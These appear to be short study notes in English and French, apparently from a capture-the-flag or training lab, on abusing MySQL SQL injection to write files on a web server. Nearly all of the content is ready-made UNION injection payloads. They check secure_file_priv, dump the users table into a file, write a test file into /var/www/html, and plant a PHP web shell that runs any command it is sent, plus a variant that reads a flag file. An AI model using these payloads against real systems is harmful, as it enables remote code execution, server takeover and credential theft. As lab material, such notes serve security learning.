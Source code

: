 To be able to write files to the back-end server using a MySQL database, we require three things:
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

Si la variable n'est pas mise à 1 alors on peut écrire dans des fichiers : 

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

Exemple avec le serveur :

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

Web-shell : 

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', '', "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'<?php system("cat /var/www/flag.txt"); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```